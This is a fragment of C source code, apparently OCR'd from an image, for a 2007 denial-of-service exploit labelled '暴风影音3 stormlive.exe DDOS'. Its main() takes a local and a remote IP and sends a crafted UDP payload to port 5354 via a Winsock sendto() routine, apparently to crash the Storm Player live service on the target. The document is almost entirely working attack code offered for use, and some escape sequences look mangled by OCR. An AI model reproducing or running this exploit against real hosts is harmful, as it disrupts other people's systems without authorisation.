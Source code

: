 rc = sendto(
                        s,
                        sendbuf,
                        allsize,
                        0,
                        (const struct sockaddr*)&ReceiverAddr,
                        sizeof(ReceiverAddr)
                        );
    if (rc == SOCKET_ERROR)
    {
        printf("sendto() failed: %d
", WSAGetLastError());
    }
    else
    {
        printf("sent %d bytes
", rc);
    }
    closesocket(s) ;
    WSACleanup() ;

return 0;
}

int main(int argc, char **argv)
{
 if (argc < 3) {
  printf("%s <LOCAL ip> <Remote ip>
", argv[0]);
  return 0;
 }

printf("
暴风影音3 stormlive.exe DDOS
");
 printf("[www.CISRG.cn](http://www.cisrg.cn/)
");
 printf("E-mail: tutu@9.cn");
 printf("Copyright (c) 2007 .: Tutu :.
");

sendudp(argv[1], argv[2], 5354, 5354, "KUDPx01x00x55x55x55x00x55x55x55x00", 14);
    getchar();
    return 0;
}

